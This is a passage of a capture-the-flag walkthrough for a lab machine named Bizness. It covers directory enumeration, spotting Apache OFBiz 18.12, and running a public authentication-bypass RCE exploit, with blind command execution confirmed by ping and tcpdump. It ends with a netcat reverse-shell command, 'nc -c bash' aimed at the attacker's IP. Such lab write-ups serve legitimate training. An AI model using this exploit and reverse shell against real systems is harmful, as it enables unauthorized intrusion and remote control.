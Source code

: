    - `-k` Bypasses SSL certificate errors
####
Gobuster reports the following: `/control (Status: 200) [Size: 34633]`.
####
At first, we see an error message because it is a root directory, which itself does not show information, but inside it, there is more information. So, we could do enumeration, but this time within the `/control` directory or search online if **apache.ofbiz** has admin routes.
####
```ruby
000000061:   200        179 L    580 W      10756 Ch    "help"                        
000000053:   200        185 L    598 W      11060 Ch    "login"
000000138:   200        140 L    496 W      9308  Ch    "view"
000000077:   200        140 L    496 W      9308  Ch    "main"
```
####
For the first two, we cannot see their contents because we do not have permissions, so we are left with the other two. If we go to `/login`, in the footer we see a version: [*Apache Ofbiz 18.12*], so if we look for exploits or vulnerabilities related to this version, we will find some: [OFBiz-Authentication-Bypass-RCE](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)
####
The exploit is executed as follows:
####
```bash
python3 exploit.py --url https://bizness.htb --cmd 'id'
```
####
<div class="warning">

###### Exploit Warning
> The exploit is not designed to show the output of commands in the console or browser, so the execution of commands is blind.
</div>

####
So the execution of commands is blind. To check if they are really being executed, we will listen with **tcpdump** on the **tun0** interface to capture *ICMP* traces.
####
```ruby
sudo tcpdump -i tun0 icmp
```
####
- #### Tcpdump Param
    - `-i` Specifies the interface to intercept traffic
    - `-icmp` Captures only ICMP traffic via **ping**
####
If we run the exploit as follows, we will see a connection in tcpdump:
####
```ruby
python3 exploit.py --url https://bizness.htb --cmd 'ping -c 10.10.16.6'
    Result ->
        01:40:26.836894 IP bizness.htb > 10.10.16.6: ICMP echo request, id 8834, seq 1, length 64
        01:40:26.836922 IP 10.10.16.6 > bizness.htb: ICMP echo reply, id 8834, seq 1, length 64
```
####
####
####
## First exploitation phase
### Netcat
The machine has a very important aspect to consider: **One-liners** with **bash** or **sh** do not work, so we have to try something different. We will use the following command:
####
```bash
python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.16.6 443'
```